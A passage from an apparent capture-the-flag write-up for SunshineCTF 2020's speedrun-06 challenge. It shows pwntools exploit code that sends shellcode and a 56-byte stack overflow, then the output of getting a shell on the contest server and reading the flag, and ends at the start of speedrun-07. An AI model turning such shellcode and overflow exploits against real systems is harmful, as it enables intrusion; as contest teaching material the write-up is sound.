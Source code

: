 ```python  
payload  = b''  
payload += asm(shellcraft.sh())

p.sendline(payload)

payload  = b''  
payload += 56 * b'A'  
payload += p64(stack)

p.sendlineafter('For saving me from all they\'ve taken.\n',payload)  
p.interactive()  
```

> Again, that `56` was kinda sloppy (c&p job) of me, it should have been
> `(0x48 - 0x10)`.  Yes, still `56`, but with some meaning.

Output:

```bash  
# ./exploit_06.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-06/chall_06'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      PIE enabled  
   RWX:      Has RWX segments  
[+] Opening connection to chal.2020.sunshinectf.org on port 30006: Done  
[*] stack: 0x7ffc092ac690  
[*] Switching to interactive mode  
$ id  
uid=1000(chall_06) gid=1000(chall_06) groups=1000(chall_06)  
$ ls -l  
total 16  
-rwxr-xr-x 1 root root     8464 Nov  7 07:49 chall_06  
-rw-r----- 1 root chall_06   39 Nov  7 08:51 flag.txt  
$ cat flag.txt  
sun{shepherd-of-fire-1a78a8e600bf4492}  
```

## speedrun-07

### Checksec  
```  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    Canary found  
   NX:       NX disabled  
   PIE:      PIE enabled  
   RWX:      Has RWX segments  
```
